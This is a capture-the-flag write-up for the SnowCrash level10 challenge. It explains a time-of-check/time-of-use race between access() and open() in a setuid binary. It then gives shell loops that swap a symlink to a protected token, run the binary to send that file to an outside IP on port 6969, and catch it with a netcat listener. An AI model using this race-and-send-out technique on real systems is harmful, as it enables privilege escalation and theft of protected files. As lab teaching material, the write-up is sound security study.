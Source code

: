 # Research 

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token
cat: token: Permission denied
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```

```bash
level10@SnowCrash:~$ strings level10
[...]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
[...]
```
The progam seems to send a file to a host on its port 6969, once it is sent, it opens it, reads it, and write it.

We don't have permission to `cat token`, so maybe we can send token with level10 program on a host and read it once level10 wrote token.

How do we do that?

`If you want to create a simple "test" server that can be set listen on a specified port and that you can interact with, take a look at the netcat command`
https://askubuntu.com/questions/301787/opening-a-port-for-listening

` [netcat] can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.`
`nc -l      Listen for an incoming connection rather than initiating a connection to a remote
             host.  The destination and port to listen on can be specified either as non-optional
             arguments, or with options -s and -p respectively.`
http://manpages.ubuntu.com/manpages/hirsute/en/man1/nc_openbsd.1.html


So we can start to execute level10 with token on our IP address: `./level10 token 10.12.0.0` but it does not work as we don't have access to token. </br>
Let's do a symlink on token: `ln -s /home/user/level10/token /tmp/final` and try `./level10 /tmp/final 10.12.0.0` -> It does not work as we don't have access to /tmp/final.</br>

`strings level10` shows that level10 does an access() then an open(). This is a security hole. 

`Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.`
https://linux.die.net/man/2/access

So we can do the symlink again and again, hoping that level10 will accept our file with access, then the symlink will occure, then level10 will open our modified file. 

# Solution

Level10 seems to be able to sends any file we create so let's do on a first terminal connected with ssh: `while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done` to create the file that is going to be the symlink. (`readlink -f token` to know the true path of token file). We need to suppress and create a new file each time or the symlink will apply on tmp/final and will not pass the access() check again.

On a second ssh terminal let's do: `while true; do (./level10 /tmp/final 10.11.200.134); done` to execute level10 in a loop.

On a third terminal, we can listen to the port 6969 with the netcat command: `while true; do nc -l 6969 ;done`
